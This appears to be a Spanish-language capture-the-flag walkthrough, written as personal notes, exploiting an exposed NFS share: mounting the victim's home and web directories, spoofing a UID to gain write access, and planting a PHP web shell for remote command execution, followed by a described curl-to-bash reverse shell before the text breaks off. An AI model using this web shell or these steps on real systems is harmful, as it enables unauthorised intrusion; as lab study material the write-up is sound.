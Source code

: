Haremos los reconocimientos de nmap como siempre:
![[Pasted image 20230218103500.png]]
Vemos que tiene el puerto 80, por lo que hacemos un whatweb para conocer cómo funciona dicha web:
![[Pasted image 20230218103557.png]]
![[Pasted image 20230218104130.png]]
De todos modos en el escaneo de nmap vemos que tiene abierto el puerto 2049; y este puerto es importante auditarlo porque puede contener muchas vulnerabilidades:
![[Pasted image 20230218104114.png]]
Por tanto podemos acudir a la web de hacktricks para ver cómo se hackea a través de este puerto; y ponerlo en el buscador:
![[Pasted image 20230218104422.png]]
Y aquí nos explica como explotar vulnerabilidades del servicio NFS en el puerto 2049:
![[Pasted image 20230218104513.png]]
Y ahora en esta parte nos explican como consultar los recursos compartidos del lado de la máquina víctima que nos permita a nosotros montar en nuestro equipo atacante; y eso lo comprobamos con este comando showmount -e:
![[Pasted image 20230218104654.png]]
Lo probamos y nos encuentra dos recursos compartidos que nos lo podemos montar en nuestra máquina:
![[Pasted image 20230218104739.png]]
Por tanto con el comando mount vamos a montarnos estas dos carpetas y trasladarlas a nuestro equipo, donde por ejemplo en este caso nos traemos el recurso compartido /home/ross a un directorio de nuestra máquina llamado ross:
![[Pasted image 20230218105326.png]]
Y lo mismo con el otro recurso compartido:
![[Pasted image 20230218105413.png]]
Y ahora tenemos clonado estos dos directorios de la máquina víctima en nuestra máquina. Por ejemplo vamos a ver el contenido de la carpeta ross:
![[Pasted image 20230218105546.png]]
Y aquí dentro de la carpeta Documents nos encontramos con un fichero de keepas con extensión .kdbx:
![[Pasted image 20230218105639.png]]
Pero si inspeccionamos el fichero html, vemos que no tenemos permisos para entrar, ya que la carpeta es del usuario 2017:
![[Pasted image 20230218110920.png]]
![[Pasted image 20230218110934.png]]
Por tanto tenemos que cambiar el propietario de este directorio para poder entrar; y para eso vamos a crear un nuevo usuari con cualquier nombre; y después con el comando usermod podemos cambiar los atributos y decimos que el usuario 2017 ahora será el usuario que hemos creado antes, el usuario pepino; y ya tendremos permisos sobre el directorio html si somos el usuario pepino:
![[Pasted image 20230218111433.png]]
Nos logueamos como el usuario que acabamos de crear:
![[Pasted image 20230218111532.png]]
Tenemos que ejecutar una bash para poder ejecutar comandos:
![[Pasted image 20230218111611.png]]
Y dentro nos encontramos con este directorio:
![[Pasted image 20230218111733.png]]
Que si hacemos una prueba, vemos que está sincronizado con la web, ya que si creamos un fichero .txt, vemos que desde la web podemos acceder a él:
![[Pasted image 20230218111930.png]]
![[Pasted image 20230218111939.png]]
Vemos que el directorio que está montado se encuentra vinculado con el mismo directorio de la máquina víctima, por lo que en este punto podemos cargar un fichero php malicioso para conseguir ejecución remota de comandos:[[0 - Consideraciones Previas#Código PHP malicioso para ganar Reverse Shell]]
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Y ahora accedemos desde la web a este fichero php malicioso y obtenemos ejecución remota de comandos:
![[Pasted image 20230218112301.png]]
Ahora que tenemos ejecución remota de comandos, nos montamos un servidor web con Python que aloje el código que nos enviará una reverse shell:
![[Pasted image 20230218113140.png]]
Lo montamos:
![[Pasted image 20230218113157.png]]
Y ahora desde la máquina víctima hacemos un curl de este servidor web y lo pipeamos con bash; mientras nos ponemos en escucha con netcat:


